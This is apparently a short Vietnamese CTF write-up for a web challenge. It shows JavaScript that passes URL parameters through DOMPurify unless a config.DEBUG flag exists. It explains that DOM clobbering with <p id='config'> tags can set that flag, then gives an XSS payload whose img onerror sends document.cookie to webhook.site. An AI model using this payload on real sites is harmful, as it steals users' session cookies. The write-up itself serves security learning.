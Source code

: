![image](https://github.com/user-attachments/assets/123fcf8e-cb02-4a47-8f22-dae4a971b6bf)

```
document.addEventListener("DOMContentLoaded", () => {
	const urlParams = new URLSearchParams(window.location.search);
	const title = atob(urlParams.get("title"));
	const content = atob(urlParams.get("content"));
	document.getElementById("title").innerHTML =
		DOMPurify.sanitize(title);
	if (typeof config !== "undefined" && config.DEBUG) {
		document.getElementById("content").innerHTML = content;
	} else {
		document.getElementById("content").innerHTML =
			DOMPurify.sanitize(content);
	}
});
```
Đoạn code sanitize cả title và content nên ta ko thể xss được ngoại trù trường hợp biến config và config.DEBUG tồn tại. Tuy DOMPurify.sanitize có thể lọc xss nhưng nó lại ko lọc các tag bình thường như <p> , <a> nên ta có thể dùng kỹ thuật DOM clobbering

# payload
title:  
<p id="config"></p><p id="config" name="DEBUG">true</p>  
content:  
<img src=x onerror="fetch('//webhook.site?' + document.cookie")>
